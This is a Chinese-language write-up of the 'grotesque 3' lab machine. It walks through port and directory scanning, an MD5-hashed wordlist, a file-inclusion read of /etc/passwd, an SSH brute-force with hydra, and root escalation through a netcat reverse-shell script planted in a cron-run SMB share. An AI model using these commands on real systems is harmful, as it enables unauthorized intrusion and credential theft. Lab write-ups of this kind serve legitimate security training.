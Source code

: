 ```yaml
---
layout: post
title: grotesque 3
subtitle: grotesque 3
date: 2025-07-18 16:00
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

### 信息搜集

IP扫描，发现主机 `192.168.163.142`

![image.png](https://img.ghostliner.top/mCSICN.png)

端口扫描，发现80、22端口

```shell
nmap -A -p- 192.168.163.142
```

![image.png](https://img.ghostliner.top/8D8uXo.png)

目录扫描，但未扫到任何东西

```shell
dirsearch -u http://192.168.163.142 -e* -i 200
nikto -h 192.168.163.142
dirb http://192.168.163.142
```

访问网站，发现链接

![image.png](https://img.ghostliner.top/8pFKYf.png)

访问链接： <http://192.168.163.142/atlasg.jpg> 发现一张图片

从图片中找有字符的地方

![image.png](https://img.ghostliner.top/cPcVDy.png)

有 `M` ，`D` 和5个 `X`，暗示MD5

使用atlasg、atlasg.jpg 和图片文件的MD5值尝试访问失败

### 目录爆破

生成MD5的目录字典

```shell
for i in $(cat /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt); do echo $i | md5sum >> md5.txt; done
```

vim删除多余字符

```vim
:%s/  -//g
```

```shell
dirsearch -w md5.txt -u http://192.168.163.142 -f php
```

![image.png](https://img.ghostliner.top/QMVN2d.png)

<http://192.168.163.142/f66b22bf020334b04c7d0d3eb5010391.php>

```shell
wfuzz -w /usr/share/wordlists/rockyou.txt -u http://192.168.163.142/f66b22bf020334b04c7d0d3eb5010391.php?FUZZ=/etc/passwd --hw 0
```

发现文件包含漏洞

![image.png](https://img.ghostliner.top/LMjc9X.png)

发现用户：`freddie`

![image.png](https://img.ghostliner.top/qviORT.png)

尝试日志注入，无法获取日志文件，尝试爆破ssh

### SSH爆破

使用之前生成的MD5字典进行爆破

```shell
hydra -l freddie -P md5.txt ssh://192.168.163.142
```

![image.png](https://img.ghostliner.top/F8whFB.png)

获得密码：`61a4e3e60c063d1e472dd780f64e6cad`

ssh登陆成功，发现日志文件目录权限高，无法访问

![image.png](https://img.ghostliner.top/GLqBEW.png)

查看家目录

![image.png](https://img.ghostliner.top/3cRIWy.png)

查看flag文件

![image.png](https://img.ghostliner.top/D60gui.png)

查看端口服务，发现139、445

```shell
ss -tnlp
```

![image.png](https://img.ghostliner.top/D6Kbdx.png)

使用 smbclient 访问 SMB 服务中的文件共享

```shell
smbclient -L 127.0.0.1
```

发现目录 `grotesque`

![image.png](https://img.ghostliner.top/aVknwb.png)

查看，无内容

![image.png](https://img.ghostliner.top/caTICs.png)

下载pspy64 [DominicBreuker/pspy: Monitor linux processes without root permissions](https://github.com/DominicBreuker/pspy?tab=readme-ov-file) 监控Linux进程和定时任务

上传到目标机

![image.png](https://img.ghostliner.top/AIFk9w.png)

```shell
chmod +x pspy64
./pspy64
```

发现每分钟以root身份执行`/smbshare`目录下脚本

![image.png](https://img.ghostliner.top/dwYK0C.png)

### root提权

添加自定义脚本，反弹shell

```shell
echo 'nc -nv 192.168.163.132 4444 -e /bin/bash' > shell.sh
```

直接写入无权限，利用smb传入脚本文件

```shell
smbclient //127.0.0.1/grotesque
put shell.sh
```

![image.png](https://img.ghostliner.top/k86oxf.png)

kali开启监听 `nc -lvp 4444`

连接成功获取到flag

![image.png](https://img.ghostliner.top/P5Gqum.png)
